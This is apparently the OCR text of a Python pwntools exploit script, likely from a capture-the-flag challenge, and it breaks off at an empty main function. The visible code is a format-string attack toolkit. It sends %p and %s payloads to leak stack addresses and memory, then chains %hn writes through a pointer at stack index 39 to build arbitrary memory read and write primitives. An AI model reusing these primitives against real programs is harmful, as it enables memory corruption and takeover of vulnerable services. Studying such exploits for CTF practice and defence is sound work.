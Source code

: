 ```
#!/usr/bin/python

from pwn import *
import pwnlib

#context.log_level = 'debug'
context.update(arch = 'amd64', os = 'linux')


def run_leak(p, payload):
    prefix = b"XXXX"
    postfix = b'ZZZZ'
    total = prefix + payload + postfix
    p.sendline(total)
    p.recvuntil(prefix)
    data = p.recvuntil(postfix)
    return data[:-4]

def adjust_bouncer(p, base, index, offset=0):
    # Adjust the value of index 39 to point at a particular index.
    address = base + (index * 8) + offset
    lower_address = address &amp; 0xffff
    payload = b'%' + str(lower_address).encode('utf-8') + b'c%26$hn'
    p.sendline(payload)
    p.recv()

def leak_address(p, index):
    payload = ('%' + str(index) + '$p').encode('utf-8')
    r = run_leak(p, payload)
    address = int(r, 16)
    return address

def leak_data(p, index):
    payload = ('%' + str(index) + '$s').encode('utf-8')
    r = run_leak(p, payload)
    return r

def write_single(p, value):
    # Value must be a 2 bytes short
    if value &gt; 0:
        payload = b'%' + str(value).encode('utf-8') + b'c%39$hn'
    else:
        payload = b'%39$hn'
    p.sendline(payload)
    p.recv()

def write_index(p, index_base, index, address, value):
    # Writes an arbitrary value to an index.
    if index == 39:
        # NOT ALLOWEEED
        return

    for i in range(0, 8, 2):
        current_portion = (address &gt;&gt; (i * 8)) &amp; 0xffff
        adjust_bouncer(p, index_base, index, offset=i)
        write_single(p, current_portion)

def arbitrary_read(p, index_base, address):
    write_index(p, index_base, 41, address, 0)
    data = leak_data(p, 41)
    return data

def main():
```